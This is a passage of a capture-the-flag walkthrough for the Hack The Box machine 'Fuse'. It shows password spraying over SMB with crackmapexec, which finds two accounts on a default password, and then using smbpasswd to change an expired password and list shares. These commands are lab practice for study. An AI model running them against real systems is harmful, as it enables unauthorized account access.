 Since, we get multiple failed attempt results as well, We will use `grep` to exclude anything with `FAILURE` in the result:

```shell
cfx:  ~/Documents/htb/fuse
→ cme smb 10.10.10.193 -u users.txt -p dict.txt --continue-on-success | grep -v FAILURE
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```
Interesting as we got Two users with `STATUS_PASSWORD_MUST_CHANGE`, both having same password. It seems each user was assigned default password and later had to change it.

### Password Changing

We'll target use `bhult`, For changing the password we can use `smbpasswd` tool, It seems even after we reset the password, the box reverts it to default password every minute (I guess!). So we need to be bit quick :

There is some password criteria as well and if it doesn't meet, we get the following error:

```shell
cfx:  ~/Documents/htb/fuse
→ smbpasswd -r 10.10.10.193 -U bhult
Old SMB password:
New SMB password:
Retype new SMB password:
machine 10.10.10.193 rejected the password change: Error was : When trying to update a password, this status indicates that some password update rule has been violated. For example, the password might not meet length criteria..
```

So I'll change the password to `ColdFusi0nX` as it meets most the usual password criteria's.

```shell
cfx:  ~/Documents/htb/fuse
→ smbpasswd -r 10.10.10.193 -U bhult
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user bhult on 10.10.10.193.
```

## Shell as svc-print

### SMB - bhult

Using new creds we are able to list SMB shares.

As user `bhult` we have READ permission on `print$` share, I tried connecting to it but didn't find anything interesting.
